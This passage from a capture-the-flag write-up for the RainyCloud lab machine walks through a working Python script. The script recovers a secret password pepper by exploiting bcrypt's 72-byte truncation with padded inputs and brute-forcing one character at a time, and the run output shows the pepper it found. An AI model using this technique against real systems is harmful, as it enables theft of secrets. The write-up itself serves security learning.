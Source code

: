 ```python
def extract_pepper(shell):
    pepper = ''

    payload_prog = log.progress('Payload')
    pepper_prog = log.progress('Pepper')

    found = True

    while found:
        found = False

        length_utf8 = (71 - len(pepper)) // 6
        length_ascii = (71 - len(pepper)) - length_utf8 * 6

        payload = '⚡️' * length_utf8 + 'A' * length_ascii
        payload_prog.status(payload)

        shell.sendlineafter(b'$', b'sudo /opt/hash_system/hash_password.py')
        shell.sendlineafter(b'Enter Password> ', payload.encode())
        shell.recvuntil(b'[+] Hash: ')
        password_hash = shell.recvline().strip()

        for c in string.printable:
            pepper_prog.status(pepper + c)

            if bcrypt.checkpw((payload + pepper + c).encode(), password_hash):
                pepper += c
                found = True
                break

    payload_prog.success(payload)
    pepper_prog.success(pepper)
```

Let's see the first iteration:

- We enter this payload (71 bytes): `⚡️⚡️⚡️⚡️⚡️⚡️⚡️⚡️⚡️⚡️⚡️AAAAA`
- The input password to `bcrypt` is: `⚡️⚡️⚡️⚡️⚡️⚡️⚡️⚡️⚡️⚡️⚡️AAAAAXXXXXX...`, where `XXXXXX...` is the secret pepper
- But `bcrypt` trunkates to 72 bytes, so the effective input password is `⚡️⚡️⚡️⚡️⚡️⚡️⚡️⚡️⚡️⚡️⚡️AAAAAX`
- We get a hash for `⚡️⚡️⚡️⚡️⚡️⚡️⚡️⚡️⚡️⚡️⚡️AAAAAX`
- We iterate through printable characters (`string.printable`), and check if our test password matches the hash

This is the result:

```console
$ python3 extract_pepper.py
[+] Connecting to rainycloud.htb on port 22: Done
[*] jack@rainycloud.htb:
    Distro    Ubuntu 22.04
    OS:       linux
    Arch:     amd64
    Version:  5.15.0
    ASLR:     Enabled
[+] Starting remote process bytearray(b'bash') on rainycloud.htb: pid 73184  
[+] Got shell as `jack_adm`
[+] Payload: ⚡️⚡️⚡️⚡️⚡️⚡️⚡️⚡️⚡️⚡️A
[+] Pepper: H34vyR41n
```
